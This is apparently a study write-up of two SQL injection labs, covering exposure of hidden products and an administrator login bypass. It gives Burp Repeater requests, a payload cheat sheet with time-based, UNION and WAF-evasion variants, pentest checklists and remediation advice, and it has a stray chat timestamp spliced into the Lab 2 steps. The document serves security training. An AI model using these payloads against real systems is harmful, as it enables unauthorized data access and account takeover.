

# SQL Injection Lab-1 — Retrieving Hidden Data 

---

## 🔹 One-line summary
In-band SQL injection (WHERE-clause manipulation): inject into a filter parameter to neutralize AND released = 1 (or force the WHERE to true) and reveal unreleased/hidden products.

---

## 🔹 What is this issue?
SQL injection (SQLi) occurs when untrusted input is concatenated into SQL queries. By injecting SQL metacharacters or logic (e.g. ' OR 1=1 --) an attacker can change the query semantics and return rows the application intended to hide.

---

## 🔹 Why this matters (real-world risk)
- Exposes sensitive or unreleased data (products, user records).  
- Can escalate to data modification, account takeover, or RCE depending on DB features and privileges.  
- Often allows enumeration of database structure, union-based data extraction, or blind/time-based exfiltration.

---

## 🔹 High-value places to test
- Filter / search endpoints: /filter?category=..., /search?q=...  
- Item lookups: /product?id=..., /item?id=...  
- Sorting / pagination params: order, limit, page  
- Admin exports / downloads: /export?table=...  
- JSON APIs: values in POST/PUT JSON bodies that end up in SQL strings

---

## 🔹 Quick reconnaissance / how to spot it
1. Submit a single quote ' and look for DB errors or unusual responses.  
2. Try boolean tests: OR 1=1 vs OR 1=2 and compare content/length.  
3. Inspect JS and links for parameters that map to DB-driven pages.  
4. Watch for subtle clues: extra rows, changed pagination, different content-length, timing differences.

---

## 🔹 Lab walkthrough — compact (exact steps)
1. Open Burp Proxy and capture a normal category request (e.g., click *Techgifts*).  
2. Right-click captured request → *Send to Repeater*.  
3. Modify category parameter to neutralize the released filter, for example:

GET /filter?category=Techgifts'+OR+1=1-- HTTP/2
Host: <lab-host>
...

4. Send the modified request in Repeater and inspect the response — unreleased products should now be visible.
5. Save raw request/response as PoC and take a screenshot.
*Lab solved.*

---

## 🔹 Proof (evidence)

  
(Screenshot 1: modified request showing payload CorporateGifts' OR 1=1-- in the URL/params.)

  
(Screenshot 2: page showing unreleased products / PoC that the injection returned additional items.)

---

## 🔹 PoC / Repeater-ready example 

GET /filter?category=Techgifts'+OR+1=1-- HTTP/1.1
Host: <LAB_HOST>
User-Agent: Mozilla/5.0
Accept: /
Connection: close

---

*If the parameter is numeric, use:*  
id=1' OR 1=1-- (or id=1 OR 1=1 depending on context).

*URL-encode payloads when sending via browser* (e.g., '%20OR%201%3D1--).

---

## 🔹 Common payloads & quick cheats

- *Comment out rest:* '+-- or '+OR+1=1--  
- *Force true:* ' OR '1'='1'--  
- *Numeric id injection:* 1' OR 1=1--  
- *Time-based (MySQL):* ' OR SLEEP(5)--  
- *UNION discovery:* try ORDER BY then UNION SELECT NULL,version(),NULL-- (only if visible output)

*Always adapt comment style to the DB (--, #, /* ... */).*

---

## 🔹 Troubleshooting

- *No visible change:* try URL-encoding, use POST/JSON variants, or test different params.  
- *WAF interference:* attempt simple obfuscation (e.g., UN/**/ION) or minimal payloads.  
- *No output:* use blind techniques (time-based or OOB) *with permission*.

---

## 🔹 Fixes / remediation 

- Use *parameterized queries / prepared statements* (no string concatenation).  
- Enforce strict *whitelist validation* for known values (e.g., allowed categories).  
- Hide verbose DB errors from users; log them internally.  
- Use *least-privilege DB accounts* and separate read-only roles where possible.  
- Add monitoring / WAF as defense-in-depth (not a replacement).

---

## 🔹 Pentest checklist 

- Identify inputs reaching DB (GET/POST/JSON/headers/cookies).  
- Test ' for errors.  
- Try boolean tests: OR 1=1-- / OR 1=2--.  
- If data returned, attempt UNION/ORDER BY to enumerate columns.  
- If hidden, try time-based or OOB techniques.  
- Save PoC: raw request + response + screenshot.

---

# SQL Injection — Lab 2: Login Bypass / Subverting App Logic

---

## 🔹 One-line summary
Bypass the login check by injecting a SQL comment/boolean into the username parameter (e.g. administrator'--) and gain access to the admin account.  

---

## 🔹 Overview
A vulnerable login/account lookup concatenates user input into SQL. Injecting a comment or always-true boolean removes or bypasses the AND password = '...' check, letting the DB return the administrator row without the correct password.

---

## 🔹 Methodology (lab walk-through)
- Capture the login flow and find the request that looks up the account (POST /login or subsequent GET /my-account?username=...).  
- Force the account GET to appear by submitting a POST with username=administrator (no payload) and forward it.  
- Modify the resulting GET (or the original POST if applicable) to inject:administrator'-- // or administrator' OR '1'='1'--
[6:19 am, 23/09/2025] ‌‌: - Send the modified GET and inspect the response for admin content (dashboard / admin UI).

---

## 🔹 Proof
  
(Screenshot: the modified GET /my-account?username=administrator'-- captured in Burp/Repeater — shows the payload used to bypass authentication.)

---

## 🔹 Impact
- Immediate account takeover (often admin) → full application access.  
- Data exposure, modification, and potential escalation to backend compromise.

---

## 🔹 Remediation (short)
- Use *parameterized queries / prepared statements* for all DB access (never concatenate inputs).  
- Do not rely on client-side or URL parameters to authorize access to sensitive account pages.  
- Enforce server-side session ownership checks for account pages.

---

## 🔹 Pentest checklist
- [x] Capture login/account lookup requests.  
- [x] Test ', OR 1=1--, and comment variations in username.  
- [x] Verify admin UI or privileged content appears.  
- [x] Save raw request/response and include one strong screenshot (manipulated request).

---
